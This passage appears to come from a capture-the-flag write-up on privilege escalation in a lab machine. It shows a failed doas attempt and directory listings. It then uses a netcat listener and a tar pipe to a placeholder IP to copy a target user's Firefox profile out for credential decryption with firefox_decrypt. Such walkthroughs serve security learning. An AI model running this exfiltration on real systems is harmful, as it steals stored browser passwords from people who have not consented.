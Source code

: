 The `/usr/local/bin/doas` might be vulnerable → I tried to execute the `doas` to become root but the current user might not have enough permission

```tsx
$ doas -u root /bin/bash
doas: Operation not permitted
```

I discovered there is another user called `v0id` in the directory `/home` → Let’s try to become user `v0id` at first

```tsx
$ ls -l /home/
total 8
drwxr-xr-x 8 user user 4096 Jan 27  2021 user
drwxr-xr-x 2 v0id v0id 4096 Jan 21  2021 v0id
```

Turn back to the `user` directory and I found this directory which could be exploited

```tsx
drwxrwxrwx   4 user user  4096 Jan 27  2021 .firefox
```

![Untitled](Glitch_images/Untitled%207.png)

I start another `Netcat Listener` on the local machine and transfer the whole directory to the local machine for analyzing

**********Local**********

```tsx
nc -lvnp <PORT> | tar xf -
```

************Target************

```tsx
$ tar cf - .firefox/ | nc <IP> <PORT>
```

Wait for a minute for the transfer process to complete

While waiting for the process, I download the tool from [https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt)
